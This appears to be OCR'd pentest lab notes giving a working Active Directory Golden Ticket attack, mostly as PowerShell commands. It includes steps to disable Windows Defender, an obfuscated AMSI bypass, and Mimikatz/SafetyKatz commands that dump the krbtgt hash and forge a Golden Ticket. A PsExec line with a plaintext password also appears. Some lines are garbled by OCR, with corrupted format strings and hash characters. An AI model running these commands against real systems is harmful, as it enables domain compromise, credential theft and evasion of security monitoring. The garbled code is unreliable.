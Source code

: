 # Golden Ticket 
## Methodology/Steps
> 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
> 2. Create a **New-PSSession** attaching to the **"domain controller"**
> 3. Enter the new session using **Enter-PSSession** 
> 4. Bypass the *AMSI* 
> 5. Exit
> 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 7. Enter the new session using **Enter-PSSession** *again*
> 8. Now we can execute mimikatz on the DC
> 9. Keep note of **krbtgt** hash
> 10. Now go to any **"non domain admin"** account
> 11. Load **Mimikats.ps1** 
> 12. Now we can create a ticket using the DC **krbtgt** hash 
> 13. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or 
>     ```powershell
>     PsExec64.exe \\prodsrv.garrison.castle.local -u GARRISON\prodadmin -p Password1! cmd
>     ```
>     

---

# Invoke-Mimikatz
## Disable Defender [ Important ]
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## AMSI bypass [ Important ]
```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

## Create a ticket on any machine [ "pass the ticket" attack]
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## List Kerberos services available
```powershell
klist
```

## To use the DCSync feature for getting krbtg hash execute the below command with DA privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
```ad-note
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
```

---

# Binaries
## Using SafetyKatz
```powershell
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit" 
or
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

## On a machine which can reach the DC over network (Need elevation):
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
